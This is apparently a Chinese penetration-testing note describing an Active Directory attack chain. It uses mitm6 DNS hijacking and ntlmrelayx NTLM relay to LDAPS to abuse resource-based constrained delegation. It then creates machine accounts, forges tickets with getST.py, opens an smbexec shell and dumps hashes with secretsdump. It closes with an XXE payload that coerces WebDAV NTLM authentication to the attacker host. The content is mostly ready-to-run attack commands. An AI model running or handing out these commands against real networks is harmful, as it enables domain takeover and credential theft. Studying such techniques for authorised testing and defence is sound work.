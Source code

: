 ### Ntlmrelayx+资源受限委派
	域控需启用ldaps，域机器启用ipv6
	*当执行ntlmrelayx脚本时，遇到报错
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/418.png)

	修改
	impacket/impacket/examples/ntlmrelayx/attacks/ldapattack.py ldapattack.py脚本，在510行上方加入
	if self.config.interactive: 
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/419.png)

	再重新安装>python setup.py install
	使用mitm6通过ipv6接管dns服务器，配置好后开始请求网络的WPAD
	>mitm6 -i eth1 -d zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/420.png)
	
	使用ntlmreplyx.py监听
	>python ntlmrelayx.py -t ldaps://dc.zone.com -debug -ip 10.1.1.101 --delegate-access --add-computer
	当目标重启网络、访问浏览器、重启电脑时会把攻击机视为代理服务器，当目标通过攻击机代理服务器访问网络时，攻击机将会向目标发送代理的认证请求，并中继NTLM认证到LDAP服务器上，完成攻击。
	这里要使用ldaps，因为域控会拒绝在不安全的连接中创建账户。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/421.png)

	可以看到已经成功添加了一个机器账户RFAYOVCC密码6YdX.NXqQGyuR7[
	使用此机器账户申请票据
	>python getST.py -spn cifs/sub2k8.zone.com zone.com/RFAYOVCC\$ -impersonate y
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/422.png)

	>export KRB5CCNAME=y.ccache
	获取shell
	>python smbexec.py -no-pass -k sub2k8.zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/423.png)

	dumphash、缓存hash
	>python secretsdump.py -k -no-pass sub2k8.zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/424.png)

	当域控机器未启用LDAPS，并且已获得域普通用户权限时
	使用powermad创建一个机器账户newcom
	https://github.com/Kevin-Robertson/Powermad
	>New-MachineAccount -MachineAccount newcom -Password $(ConvertTo-SecureString '123qwe!@#' -AsPlainText -Force)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/425.png)

	或
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/426.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/427.png)

	>python ntlmrelayx.py -t ldaps://dc.zone.com -debug -ip 10.1.1.101 --delegate-access --escalate-user newcom\$
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/428.png)

	后续正常操作即可。
	内网存在java webdav时PROPPATCH、PROPFIND、 LOCK等请求方法接受XML作为输入时会形成xxe。攻击者要求采用NTLM认证方式是，webdav会自动使用当前用户的凭据认证。
	使用ntlmrelayx监听
	>python ntlmrelayx.py -t ldaps://dc.zone.com -debug -ip 10.1.1.101 --delegate-access --escalate-user newcom\$
	Burp发送xxe请求
	PROPFIND /webdav HTTP/1.1
	Host: 1.1.1.1
	
	<?xml version"1.0" encoding="UFT-8"?>
	<!DOCTYPE xxe [
	<!ENTITY loot SYSTEM "http://10.1.1.101"> ]>
	<D:xxe xmln:D="DAV:"><D:set><D:prop>
	<a xmlns="http://xx.e">&loot;</a>
	</D:prop></D:set></D:xxe>
